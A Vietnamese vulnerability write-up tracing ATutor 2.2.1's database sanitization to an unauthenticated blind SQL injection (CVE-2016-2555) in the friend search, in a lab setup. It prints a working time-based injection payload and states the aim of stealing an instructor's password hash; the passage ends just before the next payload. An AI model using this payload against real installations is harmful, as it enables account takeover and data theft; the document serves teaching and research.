



# Atutor 2.2.1: Từ Authentication Bypass đến RCE 2.2.1 - CVE-2016-2555

Lưu ý: Môi trường thí nghiệm đã được CyberJutsu dựng lại với Docker và Xdebug.

## Cái nhìn đầu tiên
[Atutor](https://atutor.github.io/) là một hệ thống quản lý khóa học - LMS (Learning Management System) tiện ích với nhiều chức năng.


Giảng viên sử dụng để tạo và quản lý khóa học, giao bài tập về nhà, tạo các bài kiểm tra,.. Học viên cũng có thể tham gia vào các khóa học, các nhóm học tập, nộp bài và dự thi online,... Ngoài ra, tất cả mọi người còn có riêng cho mình một nơi lưu trữ file trên hệ thống.

Vậy từ góc nhìn bảo mật, một hệ thống lớn như thế có thể gặp phải các vấn đề gì?

## Phân tích tổng quan
Trước khi đi thẳng vào tìm lỗi, mình sẽ dùng thử ứng dụng như một người dùng bình thường trước để hiểu các luồng hoạt động, bắt đầu từ những chức năng cơ bản: tạo tài khoản, đăng nhập, đăng ảnh đại diện,...

Nhìn chung các chức năng này hành xử bình thường và bài bản như các ứng dụng khác. Ví dụ: Sau khi đăng ký thì được điều hướng thẳng vào trong mà không cần đăng nhập lại; muốn đăng ảnh đại diện thì cần phải đăng nhập trước;...

Trong lúc dùng thử ứng dụng đừng quên đi tìm các user roles, nó giúp ích rất nhiều khi chúng ta lên các giả thuyết để Authentication Bypass, leo quyền, IDOR (Insecure Direct Object References),...

Đối với Atutor, mình thấy có 3 loại user chính là:
- Instructor (Giảng viên): Ở bước setup môi trường cho Atutor, mình đã tạo một tài khoản này, username là `teacher`.
- Student (Học viên): Tài khoản mình tạo bằng tính năng Register trên web, username là `chawm`. Lúc tạo mới không có option nào để chọn đây là tài khoản giảng viên hay học viên gì cả. Login vào thì thấy có tính năng request để được chuyển thành tài khoản giảng viên. Đoán chừng tài khoản mới tạo sẽ luôn là loại học viên.
- Admin (Quản trị viên): Ở bước setup môi trường cho Atutor, mình cũng đã tạo một tài khoản này, username là `admin`.


Sau khi có một lượng thông tin nhất định, mình bắt đầu đưa ra vài giả thuyết:
- Chỗ Login này có kiểm soát input kỹ càng không? Có thể bị SQL injection không?
- Liệu có cách nào mình tự tạo tài khoản giảng viên luôn không?
- Các tính năng đổi password / email có xác thực người dùng hay không?
- Có thể upload file PHP lên server không?

Mặc dù có source code nhưng mình vẫn thích thử nghiệm Blackbox "nhẹ nhẹ" trước khi đọc code, để không bị giới hạn về sự sáng tạo của các giả thuyết, cũng xem như một bước khởi động trước khi bơi vào source code lớn 🥹.

Sau vài phép thử nhỏ với các giả thuyết trên thì thấy không cái nào thành công 🥲 Rõ ràng là hệ thống đã có các lớp bảo vệ hợp lý.


Đã đến lúc cần vào đọc code để hiểu sâu hơn về Atutor và các cơ chế bảo vệ của nó.

Mình chọn đại một file để vô xem code rồi từ đó đi sâu hơn. Ví dụ file `login.php` đi, nó được served ngay tại Document Root của web server. Nên nếu mình truy cập đến http://localhost:8081/login.php là server sẽ chạy các đoạn code trong file này.

**`/login.php`**  
```php
$_user_location    = 'public';
define('AT_INCLUDE_PATH', 'include/');
require (AT_INCLUDE_PATH.'vitals.inc.php');
include(AT_INCLUDE_PATH.'login_functions.inc.php');

unset($_SESSION['login']);
unset($_SESSION['valid_user']);
unset($_SESSION['member_id']);
unset($_SESSION['is_admin']);
unset($_SESSION['course_id']);
unset($_SESSION['is_super_admin']);
unset($_SESSION['dd_question_ids']);

$_SESSION['prefs']['PREF_FORM_FOCUS'] = 1;

/*****************************/
/* template starts down here */

$onload = 'document.form.form_login.focus();';

$savant->assign('form_course_id', $_GET['course']);

if (isset($_GET['course']) && $_GET['course']) {
    $savant->assign('title',  ' '._AT('to1').' '.$system_courses[$_GET['course']]['title']);
} else {
    $savant->assign('title',  ' ');
}

header('P3P: CP="IDC DSP COR CURa ADMa OUR IND PHY ONL COM STA"');
$savant->display('login.tmpl.php');
?>
```

Mình tạm chia file này thành 2 phần:
- Phần tiền xử lý: khai báo những file nào sẽ được đính kèm
- Phần xử lý: reset thông tin lưu trong biến `$_SESSION` và xử lý hiển thị login template (`login.tmpl.php`) ra giao diện

Xem thêm vài file PHP nữa thì mình cũng thấy cấu trúc lặp lại 2 phần như thế này. Mình phỏng đoán rằng các file nằm trong thư mục `include` và có đuôi `.inc.php` là các file xử lý chính của Atutor. Còn những file khác chỉ việc include / require và sử dụng các đoạn code trong đó. Quan trọng nhất là file `vitals.inc.php` gần như lúc nào cũng được require vào. Và biến `$_user_location` sẽ thể hiện user có quyền gì (public, users, admin, prog) thì được truy cập đến endpoint này.

Để tìm các giá trị của `$_user_location`, mình sẽ dùng Regex. Regex rất hữu dụng trong việc giới hạn lại những chỗ cần xem để tìm ra đáp án nhanh nhất.

Cú regex search của mình ban đầu trông như thế này  
`\$_user_location\s*=`  
Nghĩa là: Tìm những dòng gán giá trị cho `$_user_location`

Sau đó sử dụng cú pháp negative lookbehind `(?!.*public`, `(?!.*(public|users)`, `(?!.*(public|users|admin))` để loại trừ dần các kết quả trùng lặp  
Nghĩa là: Phía sau không chứa chuỗi `public`, hoặc `users`, hoặc `admin`.

Cuối cùng ta sẽ tìm ra được 4 giá trị của `$_user_location`: public, users, admin, prog.


Cú pháp này mình sẽ dùng rất nhiều vì nó giúp search chính xác hơn, loại bỏ kha khá các trường hợp false positive.

Vậy là ta đã biết các đoạn code xử lý chính nằm ở đâu. Phần tiếp theo mình sẽ đặt vài giả thuyết để bắt đầu tấn công Authentication Bypass.

## Các vấn đề có thể xảy ra trong việc xác thực
Chiến thuật của mình là liệt kê ra các hướng  Authentication Bypass nhiều nhất có thể (để dễ hình dung và tránh bị sót), sau đó phân loại, rồi tìm cái nào có khả năng bị lỗi cao nhất thì nhảy vào.

Sau khi xem một vòng trên Google, tham khảo OWASP, Port Swigger, và ChatGPT (of course 😉). Checklist của mình trông như sau:

```
- Default credentials
- SQL Injection
- IDOR
- Logic kiểm soát truy cập
- Cookie / Session management
- LDAP Injection
- XXE Injection
- Brute force
```

Chưa đầy đủ hoàn toàn đâu, nhưng tạm thời mình nghĩ như vậy là ổn. Checklist này mình đã xếp theo thứ tự ưu tiên rồi nên cứ vậy mà triển thôi.

### Default credentials
Nếu pentest Blackbox thì mình sẽ nghĩ đến cách này đầu tiên vì check khá nhanh. Nhưng mà Whitebox mình có thể vào DB xem được thì rõ ràng không có default user.  
**➡️ Ý tưởng phá sản**

### SQL Injection
Trong quá trình săn tìm lỗi SQL Injection, trước hết ta cần biết một cú SQL query được Atutor xử lý như thế nào. Để bắt đầu, chẳng có nơi nào phù hợp hơn chức năng Login.

File `login.php`, như lúc nãy mình nói nó không chịu trách nhiệm xử lý chính cho chức năng này. Do đó không thấy có các câu query nào, nên mình trace tiếp vào file `login_functions.inc.php`.

Đây rồi, trong file này có rất nhiều câu SQL query, đóng vai trò làm argument đầu tiên cho hàm `queryDB()`. Nếu nhìn vào các query này, ta sẽ thấy nhiều ký tự `%s` xuất hiện rải rác. Đồng thời, argument thứ 2 của hàm `queryDB()` lại là một mảng chứa các biến.

Lấy ví dụ câu query này ở dòng 95

**`/include/login_functions.inc.php`**  
```php
//Check if this account has exceeded maximum attempts
$rows = queryDB("SELECT login, attempt, expiry FROM %smember_login_attempt WHERE login='%s'", array(TABLE_PREFIX, $this_login), TRUE);
```

Số lượng `%s` bằng với số phần tử trong mảng, trong đó:
- Hằng số `TABLE_PREFIX` được định nghĩa trong lúc setup Atutor, mình đã gán giá trị `AT_`. Nếu replace với cái `%s` đầu tiên thì tên table sẽ thành `AT_member_login_attempt`. Khá hợp lý vì khi truy cập đến MySQL, các table đều bắt đầu bằng `AT_`
- Biến `$this_login`: tạm thời để đó tí nữa mình sẽ quay lại xem biến này là gì

➡️ Có lẽ hàm `queryDB()` này sẽ thực hiện format string để cấu thành câu SQL query hoàn chỉnh.

Nhảy vào định nghĩa hàm `queryDB()` để kiểm chứng luôn.

**`/include/lib/mysql_connect.inc.php`**  
```php
function queryDB($query, $params=array(), $oneRow = false, $sanitize = true, $callback_func = "mysql_affected_rows", $array_type = MYSQL_ASSOC) {
    ...
    $sql = create_sql($query, $params, $sanitize);
    return execute_sql($sql, $oneRow, $callback_func, $array_type);

}
```

Ở đây ta thấy tham số thứ nhất `$query` và thứ hai `$params` lại được đưa tiếp vào hàm `create_sql()`. Hàm này sẽ trả về một SQL query hoàn chỉnh và truyền vào hàm `execute_sql` để thực thi câu query đó.

**`/include/lib/mysql_connect.inc.php`**  
```php
function create_sql($query, $params=array(), $sanitize = true){
    ...
    $sql = vsprintf($query, $params);
    return $sql;
}
```

Cuối cùng, 2 tham số `$query` và `$params` cũng đi đến hàm [`vsprintf()`](https://php.net/manual/en/function.vsprintf.php) để thực hiện format string, cấu thành một câu SQL query hoàn chỉnh.

Okay, giờ ta đã hiểu flow di chuyển của một câu SQL query.  
Suy đoán của mình lúc này là, nếu developer cấu thành SQL query mà không dùng Prepared Statements, khả năng cao là mình sẽ có một bug SQL injection ở đây.

Nhưng mà nhớ hồi đầu test Blackbox mình bỏ dấu `'` vào không được đó.


Vậy lúc này mình cần trace source code để xem payload của chúng ta đã bị chặn ở chỗ nào.

Mình chọn trace từ source, vì có gói tin HTTP request từ Burp.


Thấy rằng payload được truyền vào post param tên `form_login`, mình chỉ cần search xem `$_POST['form_login']` xuất hiện chỗ nào trong file `login_functions.inc.php` là được.  
Ở dòng 69, biến `$_POST['form_login']` đã tainting qua biến `$this_login` rồi.

**`/include/login_functions.inc.php`**  
```php
$this_login        = $_POST['form_login'];
```

Tiếp tục trace theo biến `$this_login` này cho tới dòng 91.

**`/include/login_functions.inc.php`**  
```php
$this_login    = $addslashes($this_login);
```

`$this_login` đã đi vào hàm `$addslashes()`. [`addslashes()`](https://www.php.net/manual/en/function.addslashes.php) trong PHP là một hàm để escape các ký tự đặc biệt.


Nhưng để ý rằng, `addslashes()` ở dòng 91 lại có dấu `$` ở ngay đầu. Đây là một cú pháp đặc biệt của PHP để định nghĩa một hàm động (dynamic function), nghĩa là tên của hàm này sẽ được gán trong lúc chạy chương trình.

Biến `$addslashes` sẽ trả về một chuỗi, giá trị chuỗi này mới chính là tên hàm thực sự. Tiến hành search những dòng code mà developer gán giá trị cho biến này.


Kết quả ra 5 files. Nhưng để biết `$addslashes` trong `login_functions.inc.php` nhận giá trị từ file nào, ta phải xem `login_functions.inc.php` đã include / require file nào trong 5 file này.

  


Kết quả đều không có. Nếu trong file `login_functions.inc.php` không có, thì ta cần trace ngược lại file `login.php` để xem trước đó file này có include / require thêm file nào khác không.

**`/login.php`**  
```php
require (AT_INCLUDE_PATH.'vitals.inc.php');
```

Như lúc đầu mình có nói, file `vitals.inc.php` gần như lúc nào cũng được require vào.  
Sau một hồi search thì mình thấy được dòng 74 file `vitals.inc.php` có `require_once` file `mysql_connect.inc.php`.

**`/include/vitals.inc.php`**  


Vậy là chỉ có mỗi file `mysql_connect.inc.php` được đính vào. Trace tiếp vào file `mysql_connect.inc.php`, ta thấy `$addslashes` được gán giá trị dựa vào 3 trường hợp.

**`/include/lib/mysql_connect.inc.php`**  
```php
if ( get_magic_quotes_gpc() == 1 ) {
    $addslashes   = 'my_add_null_slashes';
    $stripslashes = 'stripslashes';
} else {
    if(defined('MYSQLI_ENABLED')){
        // mysqli_real_escape_string requires 2 params, breaking wherever
        // current $addslashes with 1 param exists. So hack with trim and 
        // manually run mysqli_real_escape_string requires during sanitization below
        $addslashes   = 'trim';
    }else{
        $addslashes   = 'mysql_real_escape_string';
    }
    $stripslashes = 'my_null_slashes';
}
```

Đến đây thì mình quyết định đặt breakpoint luôn để xem sẽ đi vào nhánh nào.

**`/include/lib/mysql_connect.inc.php`**  


Vậy là `$addslashes()` đã được gán thành hàm `trim()`, đồng nghĩa với `$addslashes($this_login)` chỉ đơn giản là `trim($this_login)`. Như vậy dấu `'` của chúng ta sẽ không bị escape.

*Lúc phân tích thực tế mình không dig vào chỗ này quá sâu, chỉ cần thấy dấu `'` không bị vướng là mình bỏ qua để đi step tiếp theo luôn. Phần bên dưới là khi viết lại writeup mình search thêm để hiểu rõ hơn.*

> Để hiểu tại sao `$addslashes` lại đi vào nhánh `if` đó, hãy xem định nghĩa 2 hàm [`get_magic_quotes_gpc()`](https://www.php.net/manual/en/function.get-magic-quotes-gpc.php) và [`defined()`](https://www.php.net/manual/en/function.defined.php) là gì  
    - get_magic_quotes_gpc: luôn trả về `false`. Do đó nhánh `if` đầu tiên sẽ không bao giờ hit  
    - defined: kiểm tra xem hằng số có tồn tại hay không. Ở đây ta chỉ cần search xem `MYSQLI_ENABLED` có được định nghĩa ở trên chưa là được


**`/include/lib/vital_funcs.inc.php`**  


> Trong file `vital_funcs.inc.php` lại có một nhánh `if` check xem nếu mysqli extension đã được cài đặt rồi thì gán `MYSQLI_ENABLED` bằng 1. Để kiểm tra, ta chỉ cần xem `phpinfo` của server. Thấy rằng MysqlI Support đã được enabled.



> Do đó nhánh `if(function_exists('mysqli_connect'))` này luôn đúng, vì vậy `if(defined('MYSQLI_ENABLED'))` cũng luôn đúng.  
**➡️ `$addslashes` luôn bằng `trim`**  

Quay về file `login_functions.inc.php`, tiếp tục trace xuống ta thấy `$this_login` không còn đi qua lớp bảo vệ nào nữa mà vào thẳng các hàm `queryDB()`.

Lúc này xem kỹ lại hàm `queryDB()` ta sẽ thấy sự xuất hiện của tham số `$sanitize`.

**`/include/lib/mysql_connect.inc.php`**  
```php
function queryDB($query, $params=array(), $oneRow = false, $sanitize = true, $callback_func = "mysql_affected_rows", $array_type = MYSQL_ASSOC) {
    ...
    $sql = create_sql($query, $params, $sanitize);
    return execute_sql($sql, $oneRow, $callback_func, $array_type);

}
```

Tham số này được gán mặc định bằng `true` và không bắt buộc phải truyền vào hàm `queryDB()`, sau đó lại đi tiếp vào hàm `create_sql()`.  
Hàm `create_sql()` cũng có tham số `$sanitize` tương tự, có vẻ developer code khá an toàn khi cố gắng đảm bảo `$sanitize` luôn được bật.

**`/include/lib/mysql_connect.inc.php`**  
```php
function create_sql($query, $params=array(), $sanitize = true){
    global $addslashes, $db;
    // Prevent sql injections through string parameters passed into the query
    if ($sanitize) {
        foreach($params as $i=>$value) {
         if(defined('MYSQLI_ENABLED')){  
             $value = $addslashes(htmlspecialchars_decode($value, ENT_QUOTES));  
             $params[$i] = $db->real_escape_string($value);
            }else {
             $params[$i] = $addslashes($value);           
            }
        }
    }

    $sql = vsprintf($query, $params);
    return $sql;
}
```


Ta thấy được nếu `$sanitize` bằng `true` thì tất cả các phần tử của mảng `$params` sẽ phải đi qua lớp kiểm tra. Lúc này mình đặt thêm một breakpoint nữa ngay dòng 189 để kiểm chứng, đúng là `real_escape_string()` đã trở thành chướng ngại vật trên con đường tìm lỗi SQL Injection. Hơn nữa, nếu nhìn vào log của MySQL ta sẽ thấy payload đã bị escape.

**`mysql_general.log`**  


Nhưng theo document của PHP, [`real_escape_string()`](https://www.php.net/manual/en/mysqli.real-escape-string.php) chỉ escape một vài ký tự nhất định.


Đến đây mình có 3 ý tưởng:
1. Nếu payload của mình không chứa các ký tự này, cụ thể là không nhất thiết phải chứa `'` hay `"` thì mình sẽ vượt qua đoạn check `real_escape_string()`
2. Không để `$param` đi vào nhánh có hàm `real_escape_string()`
3. Không để `$param` đi vào nhánh `$sanitize` bằng `true`

#### 1. Payload không chứa chứa `'` hay `"`
Tuy nhiên các câu query đều truyền param vào theo kiểu format string, với kiểu dữ liệu được developer cho sẵn. Vì vậy ý tưởng truyền payload vào những chỗ có `%d` là không thể thực hiện được.

Cú regex search của mình sẽ trông như thế này  
`queryDB\(.*\W(?<!['"])%s(?!['"])\W`  
Nghĩa là: Tìm những dòng sử dụng hàm `queryDB()` có chứa `%s` không bị đặt vào các dấu nháy.

Ở đây mình sử dụng cú pháp negative lookahead (`(?<!['"])`) và negative lookbehind `(?!['"])` của regex để đảm bảo `%s` KHÔNG theo sau và KHÔNG bị theo sau bởi dấu nháy.

Ngoài ra để giới hạn các file cần phải xem, mình còn tận dụng tính năng "files to exclude" của VS Code  
`*.html,*.css`


Mình nhận được 4 kết quả. Nhưng sau khi xem qua hết 4 thì đều phá sản vì hoặc không thể control được param truyền vào `%s`, hoặc control được nhưng trước khi truyền vào nó đã bị xử lý trước bởi hàm [`intval()`](https://www.php.net/manual/en/function.intval.php).  
**➡️ Ý tưởng phá sản**

#### 2. Không để `$param` đi vào nhánh có hàm `real_escape_string()`
Nếu `defined('MYSQLI_ENABLED')` trả về `false` thì mình sẽ đến được dòng  
`$params[$i] = $addslashes($value);`

Thế nhưng lúc này `$addslashes` sẽ có giá trị gì?

**`/include/lib/mysql_connect.inc.php`**  
```php
if ( get_magic_quotes_gpc() == 1 ) {
    $addslashes   = 'my_add_null_slashes';
    $stripslashes = 'stripslashes';
} else {
    if(defined('MYSQLI_ENABLED')){
        // mysqli_real_escape_string requires 2 params, breaking wherever
        // current $addslashes with 1 param exists. So hack with trim and 
        // manually run mysqli_real_escape_string requires during sanitization below
        $addslashes   = 'trim';
    }else{
        $addslashes   = 'mysql_real_escape_string';
    }
    $stripslashes = 'my_null_slashes';
}
```

`$addslashes` bằng `mysql_real_escape_string`  
**➡️ Ý tưởng phá sản**

#### 3. Không để `$param` đi vào nhánh `$sanitize` bằng `true`
Vì tham số `$sanitize` mặc định đã là `true`, ta cần phải loại bỏ các hàm `queryDB()` nào:
1. Chứa tham số thứ 4 là `true`
2. Không define tham số thứ 4

➡️ Vậy chỉ cần đơn giản là: Tìm những dòng sử dụng hàm `queryDB()` với cờ `$sanitize` là `false`

Cú regex search của mình sẽ trông như thế này. Có thể không hoàn toàn chính xác, nhưng nếu giới hạn được khá nhiều trường hợp cũng tạm chấp nhận được rồi đó. Phần còn lại mình sẽ tự xem bằng mắt thôi  
`queryDB\(.*false`



12 kết quả là con số tương đối ít để có thể xem qua hết các trường hợp này. 

> Qua trải nghiệm này thì mình nghĩ đầu tiên cần xem qua từng kết quả và thử trace ngược lại các biến xem có thể DỄ DÀNG kiểm soát nó không. Đoạn này sẽ hơi cảm tính một chút vì mình thấy nếu cứ xem từ trên xuống, mà cái nào cũng dig vô quá sâu rất dễ mất thời gian, vì biết đâu file tiếp theo nhìn qua là đã có bug rồi. Do đó nếu trace một hồi mà thấy hơi khó nhằn (Ví dụ: bị validate thêm 1 lớp, chỉ kiểm soát được 1 phần,...) thì nên take note lại, và sắp xếp ưu tiên (nào dễ coi trước) để analyze lại sau.

Đúng là không dễ dàng gì vì xem tới tận file cuối cùng mình mới thấy được một tia hy vọng 🥲

**`/mods/_standard/social/lib/friends.inc.php`**  
```php
$rows_friends = queryDB($sql, array(), '', FALSE);
```

Nếu trace ngược từ dòng này lên trên, không khó để thấy chúng ta cần control argument đầu tiên `$name` của hàm `searchFriends()`. Đồng thời cờ `$searchMyFriends` phải được bật bằng `true` thì payload của chúng ta mới hit vào nhánh có chứa dòng này.

**`/mods/_standard/social/lib/friends.inc.php`**  
```php
function searchFriends($name, $searchMyFriends = false, $offset=-1){
    global $addslashes;
    $result = array(); 
    $my_friends = array();
    $exact_match = false;

    //break the names by space, then accumulate the query
    if (preg_match("/^\\\\?\"(.*)\\\\?\"$/", $name, $matches)){
        $exact_match = true;
        $name = $matches[1];
    }
    $name = $addslashes($name);	
    $sub_names = explode(' ', $name);
    foreach($sub_names as $piece){
        if ($piece == ''){
            continue;
        }

        //if there are 2 double quotes around a search phrase, then search it as if it's "first_name last_name".
        //else, match any contact in the search phrase.
        if ($exact_match){
            $match_piece = "= '$piece' ";
        } else {
            //$match_piece = "LIKE '%$piece%' ";
            $match_piece = "LIKE '%%$piece%%' ";
        }
        if(!isset($query )){
            $query = '';
        }
        $query .= "(first_name $match_piece OR second_name $match_piece OR last_name $match_piece OR login $match_piece ) AND ";
    }
    //trim back the extra "AND "
    $query = substr($query, 0, -4);

    //Check if this is a search on all people
    if ($searchMyFriends == true){
        //If searchMyFriend is true, return the "my friends" array
        //If the member_id is empty, (this happens when we are doing a search without logging in) then get all members?
        //else, use "my friends" array to distinguish which of these are already in my connection
        if(!isset($_SESSION['member_id'])){
            $sql = 'SELECT member_id FROM '.TABLE_PREFIX.'members WHERE ';
        } else {
            $sql = 'SELECT F.* FROM '.TABLE_PREFIX.'social_friends F LEFT JOIN '.TABLE_PREFIX.'members M ON F.friend_id=M.member_id WHERE (F.member_id='.$_SESSION['member_id'].') AND ';
            $sql .= $query;
            $sql .= ' UNION ';
            $sql .= 'SELECT F.* FROM '.TABLE_PREFIX.'social_friends F LEFT JOIN '.TABLE_PREFIX.'members M ON F.member_id=M.member_id WHERE (F.friend_id='.$_SESSION['member_id'].') AND ';
        }
        $sql .= $query;

        $rows_friends = queryDB($sql, array(), '', FALSE);
```

Vậy tiếp theo, cần search xem những chỗ nào sẽ sử dụng hàm `searchFriends()` và có truyền tham số `true`.  
Cú regex search của mình sẽ trông như thế này  
`searchFriends\(.*true`


Khi trace ngược lại, dễ dàng nhìn thấy argument đầu tiên trong các hàm `searchFriends()` mình đều có thể kiểm soát được hết thông qua GET param. Tuy nhiên, trong 3 file này có 2 file chứa đoạn code check user đã được xác thực rồi hay chưa.

**`/mods/_standard/social/index.php`**  
**`/mods/_standard/social/connections.php`**  
```php
if (!$_SESSION['valid_user']) {
    require(AT_INCLUDE_PATH.'header.inc.php');
    $info = array('INVALID_USER', $_SESSION['course_id']);
    $msg->printInfos($info);
    require(AT_INCLUDE_PATH.'footer.inc.php');
    exit;
}
```

Do đó để truy cập được 2 endpoint này bắt buộc mình phải đăng nhập trước. Như vậy, chỉ còn file `index_public.php` còn lại có thể truy cập được mà không cần authentication.

**`/mods/_standard/social/index_public.php`**  


Để hit được dòng 78, ta phải thỏa một số điều kiện `if`, đó là trong cú request phải vừa tồn tại GET param `search_friends` và POST param `myFriendsOnly`.  
Giá trị của `$_POST['myFriendsOnly']` có thể tùy ý, nhưng giá trị `$_GET['search_friends']` sẽ được truyền vào `$search_field`, sau đó trở thành argument đầu tiên đi vào hàm `searchFriends()`, chính là payload mà ta sẽ dùng đế tấn công SQL Injection.

Trước hết, thử với một dấu `'` để xem payload chứa dấu `'` có còn bị escape nữa không.


Xem MySQL log thấy không hề có query nào mang cú pháp giống biến `$sql` trong `friends.inc.php` được tạo để gửi đến MySQL, gói response cũng trả ra lỗi.


Để xem dòng 312 này có gì

**`/mods/_standard/social/lib/friends.inc.php`**  
```php
$rows_friends = queryDB($sql, array(), '', FALSE);

if(count($rows_friends) > 0){
    foreach($rows_friends as $row){     //line 312
        if ($row['member_id']==$_SESSION['member_id']){
            $this_id = $row['friend_id'];
        } else {
            $this_id = $row['member_id'];
        }
        $temp =& $my_friends[$this_id];	
        $temp['obj'] = new Member($this_id);
        if ($searchMyFriends){
            $temp['added'] = 1;
        }
    }
}
```

Debug thấy `$rows_friends` trả ra kết quả `-1`, đoán chừng ở hàm `queryDB()` đã xảy ra lỗi lúc thực thi

**`/mods/_standard/social/lib/friends.inc.php`**  


Xem thử câu query được tạo trông như thế nào. Có thể thấy dấu `'` như dự đoán đã không bị escaped và đã gây ra lỗi cho câu query


Ở đây chúng ta nhìn thấy sự xuất hiện của ký tự `%%`. Đây là cách để escape dấu `%` khi câu query này đi vào hàm format string.

> '%': No argument is converted, results in a '%' character in the result.  
    Ref: https://docs.python.org/3/library/stdtypes.html#old-string-formatting

Có nghĩa là biến `$sql` sau khi đi vào `create_sql()`, các ký tự `%%` sẽ trở lại thành `%` như bình thường trước khi vào hàm `exec_sql()`.

Quay trở lại câu query bị lỗi ban nãy, lúc này khả năng ta có một lỗi SQL Injection là rất cao, chỉ cần xác nhận lại một lần nữa là được.

Debug lại đoạn code trong hàm `searchFriends()` ở bên trên. Ta thấy biến string `$name` sau khi đi vào hàm `searchFriends()`, đầu tiên sẽ được vào `$addslashes()` (lúc này bằng `trim()`) để loại bỏ các ký tự space ở đầu và cuối. Tiếp đến nó sẽ được chặt ra thành các phần tử, cũng phân cách bởi space. Sau đó các phần tử này sẽ được ghép lại vào biến `$query`.

Vậy nếu với câu query như thế này
```sql
SELECT member_id FROM AT_members WHERE (first_name LIKE '%%{$piece}%%'  OR second_name LIKE '%%{$piece}%%'  OR last_name LIKE '%%{$piece}%%'  OR login LIKE '%%{$piece}%%'  ) 
```
Ta cần làm cho `$piece` hợp lệ để hàm `queryDB()` thực thi thành công. Cũng lưu ý rằng payload không thể có chứa dấu space, vì sẽ khiến cho `$piece` bị parse sai.

Payload của mình sẽ trông như thế này  
`')AND/**/sleep(5)#`

Và câu query bị exploit sẽ trông như thế này
```sql
SELECT member_id FROM AT_members WHERE (first_name LIKE '%%')AND/**/sleep(5)#
```

Nghĩa là: Tìm id của tất cả các member và ngủ 5s với mỗi member tìm thấy. Trong `AT_members` chúng ta hiện có 2 member, nếu query này thành công thì response sẽ trả về sau 10s.


Như vậy ta đã xác nhận được chỗ này bị SQL Injection. Thế nhưng câu SQL này chỉ lấy ra `member_id`, và `member_id` này sau đó sẽ được dùng để tạo object `Member`, rồi chính các object này sẽ được trả về trong response cho user.

**`/mods/_standard/social/lib/friends.inc.php`**  
```php
$rows_friends = queryDB($sql, array(), '', FALSE);

if(count($rows_friends) > 0){
    foreach($rows_friends as $row){
        if ($row['member_id']==$_SESSION['member_id']){
            $this_id = $row['friend_id'];
        } else {
            $this_id = $row['member_id'];
        }
        $temp =& $my_friends[$this_id];	
        $temp['obj'] = new Member($this_id);
        if ($searchMyFriends){
            $temp['added'] = 1;
        }
    }
}
```

Vì vậy ta không hề thực sự nhìn thấy kết quả của câu lệnh SQL trong response mà sẽ luôn là danh sách các user  
➡️ Đây chính là một bug blind SQL.

Có bug SQL Injection rồi thì mình sẽ leak cái gì ra? Thông thường, mình sẽ dùng để leak password, vì đây là thông tin nhạy cảm nhất, có thể bị lợi dụng để Account Takeover user bất kỳ.

Vậy mục tiêu của mình bây giờ sẽ là lấy ra được password hash của user có quyền Instructor. Nếu Blackbox, mình sẽ phải blind từng bước để lấy thông tin user mà mình muốn đánh cắp password. Nhưng mình có quyền vào DB rồi nên sẽ skip qua các bước đó, ở đây xem như ta đã biết user này có `member_id` bằng `1`

Payload của mình sẽ trông như thế này  
```sql
